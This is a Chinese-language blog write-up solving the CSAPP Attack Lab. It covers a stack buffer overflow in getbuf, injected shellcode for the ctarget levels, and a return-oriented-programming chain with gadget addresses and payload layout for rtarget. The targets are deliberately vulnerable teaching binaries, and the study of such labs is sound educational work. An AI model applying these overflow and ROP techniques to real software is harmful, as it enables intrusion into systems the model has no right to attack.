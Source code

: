+++
date = "2025-05-28T14:42:00+08:00"
# lastmod = "2025-07-22T14:41:05+08:00"
draft = false
title = "CSAPP Attack Lab WriteUp"
# summary = ""
+++

## ctarget

```asm
0000000000401e45 <getbuf>:
  401e45:	f3 0f 1e fa          	endbr64 
  401e49:	48 83 ec 38          	sub    $0x38,%rsp
  401e4d:	48 89 e7             	mov    %rsp,%rdi
  401e50:	e8 ad 02 00 00       	call   402102 <Gets>
  401e55:	b8 01 00 00 00       	mov    $0x1,%eax
  401e5a:	48 83 c4 38          	add    $0x38,%rsp
  401e5e:	c3                   	ret
```

`getbuf` 的栈帧大小为 56 byte，将相关的函数逆向分析后可以得到伪代码。

```c
int getbuf(){
    char dest[56];
    Gets(dest);
    return 1;
}

static gets_cnt;
extren FILE* infile;

// write string to memory from dest till read EOF/'\n'
char* Gets(char* dest){
    gets_cnt=0;
    for(auto d=dest;;){
        char ret=getc(infile);
        if(ret==EOF||ret=='\n'){
            break;
        }
        *d=ret;
        save_char(ret);
        d++;
    }
    return dest;
}
```

### level 1

目标是 touch1 (401e5f)，根据对 `getbuf` 的分析可知只需构建一个字符串，包含 56 byte 无效字符串和一个 8 byte 的地址即可，地址会覆盖返回地址，此时地址需要注意高低位方向的问题。

### level 2

目标是 touch2 (401e93)，根据要求可知，需要在跳转前执行一部分程序，由于 `ctarget` 的栈可执行，所以可以直接将相应汇编的 hex 值写入栈中，然后跳转到写入字符串时的栈顶，执行操作后进行第二次跳转。

另外由于在 .s 文件中指定超出范围的地址应该有点问题，所以改用 push + ret 的方式。

```asm
mov $0x2db19fd3,%rdi
push $0x401e93
ret
```

### level 3

目标是 touch3 (401fb0)，要求给出一个 `char *` 指针，只需将 cookie 转换为 hex 写入栈中，再将相应的地址作为参数传递即可，记得考虑c字符串末尾的`\0`，第二个 `push $0x0` 是多余的。

```asm
push $0x0
push $0x31626432
movl $0x33646639,0x4(%rsp)
mov %rsp,%rdi
push $0x0
push $0x401fb0
ret
```

当然这里也可以通过将 cookie 构造到攻击字符中实现数据的写入。

另外不知道为什么，程序执行的时候会出现段错误，但是在`-q`下没有问题，而且计分板也正常记分，可能是服务器的问题。

## rtarget

`rtarget` 有栈随机化和栈不可执行两个保护，所以攻击思路从注入代码并执行变成了通过程序自带的代码进行攻击，更具体地来讲就是利用 ret 会跳转到栈顶地址指向的位置，将原有程序的代码（更具体的，可执行的字节）拼凑起来，形成期望的攻击代码。

### level 2

本题需要干两件事：

1. 将 cookie 存到 `%rdi`
2. 调用 `touch2`

由于不能直接注入执行，所以可以利用 pop 的方式，将 cookie 写入到栈上后写入到寄存器中；另外由于找不到 `pop %rdi ret` 的代码，所以用一个寄存器中转，这里使用 `%rax`。

```asm
pop %rax
mov %rax,%rdi
```

对于调用 `touch2`，只需要像 `ctarget` 一样将相应的地址写入栈中，然后返回即可。

所以最终的汇编代码为：

```asm
(1)
pop %rax
ret
(2)
mov %rax,%rdi
ret
```

经过查找，第一部分的地址为 402087，第二部分为 40207b，由此构建了相应的 hex 字符串，内容依次为：

| No. | 内容          | 大小   |
| --- | ------------- | ------ |
| 1   | 任意内容      | 56byte |
| 2   | 第一部分地址  | 8byte  |
| 3   | cookie        | 8byte  |
| 4   | 第二部分地址  | 8type  |
| 5   | `touch2` 地址 | 8byte  |

即解。
